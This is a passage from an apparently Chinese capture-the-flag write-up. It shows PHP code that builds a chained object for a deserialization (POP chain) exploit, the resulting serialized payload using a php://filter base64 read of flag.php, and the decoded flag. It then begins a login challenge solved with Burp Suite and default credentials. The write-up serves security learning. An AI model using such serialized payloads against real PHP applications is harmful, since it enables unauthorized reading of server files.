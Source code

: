 ```php
  }
class C{
  public $var;
  public $z;
}
class D{
  public $p;
}
$A=new A();
$B=new B();
$C=new C();
$D=new D();
$D->p=$A;
$C->var=$B;
$B->q=$C;
$C->z=$D;
echo serialize($C);
```
运行结果：<br />`O:1:"C":2:{s:3:"var";O:1:"B":1:{s:1:"q";r:1;}s:1:"z";O:1:"D":1:{s:1:"p";O:1:"A":1:{s:5:"var_1";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}}}`<br />**上传exp:**<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698566249382-cb98536b-d979-4392-9f8e-14fc07892b23.png#averageHue=%23fcfbfb&clientId=u35de8186-3912-4&from=paste&height=735&id=u0aacfc3c&originHeight=919&originWidth=1170&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=75178&status=done&style=none&taskId=u3559ab3d-80f3-49fa-b962-9bfa5e2d3a9&title=&width=936)<br />`PD9waHANCiRmbGFnID0gImZsYWd7NDQxZTY5NzEtMjU3NC00ZWYzLTg5YWYtYWQwNDYwMzA2NmUwfSI7DQo=`<br />base64解码：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698566528691-d632f74b-0f72-4284-8d8b-5c9c2a867f76.png#averageHue=%231a1d2a&clientId=u35de8186-3912-4&from=paste&height=599&id=u8b842781&originHeight=749&originWidth=1118&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=333676&status=done&style=none&taskId=ub92a50fc-9d53-4aac-b851-8ad31d9339f&title=&width=894.4)<br />**得出flag：**<br />`flag{441e6971-2574-4ef3-89af-ad04603066e0}`
<a name="fvbRy"></a>
### [WEEK1]登录就给flag
题目环境：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698567819799-9b9fdd3b-dd10-488f-8109-61dc44941cc5.png#averageHue=%23f9f8f8&clientId=u35de8186-3912-4&from=paste&height=270&id=ufd2989d2&originHeight=338&originWidth=760&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=27423&status=done&style=none&taskId=uc2d92102-21a8-4132-9f9b-bf2ed1e50a4&title=&width=608)<br />burpsuite抓包<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698568013388-7745a06a-4492-4fdc-ab5c-0e8d4aeaaa11.png#averageHue=%23f8f7f7&clientId=u35de8186-3912-4&from=paste&height=534&id=u5fd32629&originHeight=668&originWidth=1275&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=103243&status=done&style=none&taskId=ub18d7650-433e-4933-92e7-f300ec2ad14&title=&width=1020)
> 初始账号：admin
> 初始密码：1
